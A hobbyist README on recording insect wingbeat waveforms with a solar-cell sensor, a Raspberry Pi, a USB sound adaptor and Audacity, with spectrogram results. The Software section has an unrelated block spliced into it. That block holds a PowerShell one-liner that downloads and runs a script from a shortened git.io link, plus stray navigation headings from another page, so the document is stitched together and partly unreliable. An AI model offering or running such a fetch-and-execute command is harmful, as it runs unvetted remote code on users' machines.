 # InsectWingbeat
This repo documents my initial attempts to record insect wingbeat waveforms using an optical sensor and a Raspberry Pi.

In the late 80s and early 90s I did a bit of work on automated monitoring and identification of flying insects using waveforms collected by very simple none-imaging optical sensors. Hardware and software has certainly changed a lot since then. My contribution to the field was to suggest characterizing insect wingbeat waveforms using harmonic content in addition to the wingbeat frequency (=fundamental frequency).

Just for fun, I decided to hook one of my old sensors to a Raspberry Pi via a USB sound adaptor to see what kind of signals I could capture with minimum effort. Here's my setup:

## Hardware

The sensor is just a miniature solar cell connected to a small transformer which removes the DC component of the waveform (Fig. 1). Output from the sensor was connected to a Raspberry Pi 3+ single board computer using a CableCreation USB sound adaptor (Fig.2).

## Software

I installed Audacity 2.2.2 on Raspbian 10 and was pleasantly surprised that it ran very well. I operated the Raspberry Pi remotely using VNC.

Install the prerelease version:
    pwsh -nop -c '$function:i=irm "https://git.io/JtOo3";i'
Uninstall:
    pwsh -nop -c '$function:i=irm "https://git.io/JtOo3";i  -Un'

In This Article

    Supported Platforms
    Automatic install
    Uninstall



## Experiment

* In this experment, I recorded insects flying between the sun an the sensor.
* I taped the sensor to the end of a 6 foot wooden pole and placed it in the direct sun just outside the balcony of my apartment. The sensor was connected to the USB sound adaptor using a 10 foot cable with appropriate connectors.
* I used Audacity to record four one-minute mono WAV files at a sample rate of 44100 Hz. Recordings were made on August 2020 between 11:30am and 11:40am in Yona, Guam. Weather was mostly sunny with light winds.

## Results

A few insect signals can be heard during playback of the recordings. Some of these are clearly visible in spectrograms (Figures 3,4,5,6).

![](sensor.jpg)
Fig. 1 Sensor.

![](rpi.jpg)
Fig 2. Raspberry Pi with USD sound adaptor.

![](1.png)
Figure 3. Spectrogram of 1.wav. Note the insect wingbeat harmonic series at about 20s.

![](2.png)
Figure 4. Spectrogram of 2.wav.

![](3.png)
Figure 5. Spectrogram of 3.wav. These signals are probably caused by parts of a small cloud moving over the sun.

![](4.png)
Figure 6. Spectrogram of 4.wav.

